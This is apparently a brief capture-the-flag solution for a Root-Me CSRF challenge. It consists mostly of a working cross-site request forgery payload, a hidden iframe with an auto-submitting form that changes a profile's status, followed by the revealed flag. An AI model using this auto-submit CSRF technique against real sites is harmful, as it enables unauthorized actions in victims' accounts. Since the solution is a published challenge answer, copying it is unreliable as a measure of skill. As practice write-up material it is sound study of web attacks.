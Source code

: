 /index.php?action=contact
```
<iframe style="display:none" name="csrf-frame"></iframe>
<form  id="csrf-form" target="csrf-frame" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="POST" enctype="multipart/form-data">
	<input type="hidden" name="username" value="user" />
	<input type="hidden" name="status" value="on" />
	<input type="submit" value="Submit" />
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

/index.php?action=private
> Good job dude, flag is : Csrf_Fr33style-L3v3l1!
